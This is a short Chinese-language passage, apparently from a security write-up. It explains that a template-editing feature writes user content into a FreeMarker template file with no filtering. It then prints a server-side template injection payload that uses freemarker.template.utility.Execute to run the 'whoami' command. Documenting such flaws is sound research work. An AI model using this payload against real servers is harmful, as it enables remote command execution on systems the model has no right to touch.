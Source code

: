 ![image-20230418144656164](images/25.png)

就是将内容写入，并且把实体编码替换为了<，防止一些html标签不起作用，其实没有对写入的参数做任何过滤，可以直接把模板的payload写入到模板文件中

payload

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("whoami") }
```

![image-20230418144134688](images/26.png)
